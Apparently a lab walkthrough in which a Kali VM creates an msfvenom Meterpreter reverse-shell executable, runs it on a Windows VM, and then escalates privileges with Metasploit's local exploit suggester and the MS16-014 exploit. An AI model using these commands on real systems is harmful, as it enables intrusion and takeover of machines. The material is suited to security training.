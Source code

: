 

Establish a shell

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

Detection & Exploitation

Kali VM

1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
5. In Metasploit (msf > prompt) type: set LPORT 5555
6. In Metasploit (msf > prompt) type: run

NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type set lhost [Kali VM IP Address] and run again.

